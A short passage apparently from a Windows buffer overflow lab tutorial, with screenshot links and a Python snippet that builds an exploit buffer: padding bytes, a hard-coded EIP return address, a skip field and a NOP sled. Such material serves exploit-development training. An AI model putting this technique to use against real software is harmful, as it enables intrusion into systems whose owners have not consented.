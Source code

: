   ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/34.png)
- Add these lines to the start of the file, as shown below.
  ```bash
  #!/usr/bin/python
  prefix = 'A' * (20000 + 15*400 + 18*4 + 3)
  eip = '\x58\xb0\x01\x10'
  skip4 = 'FFFF'
  nopsled = '\x90' * 16
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/35.png)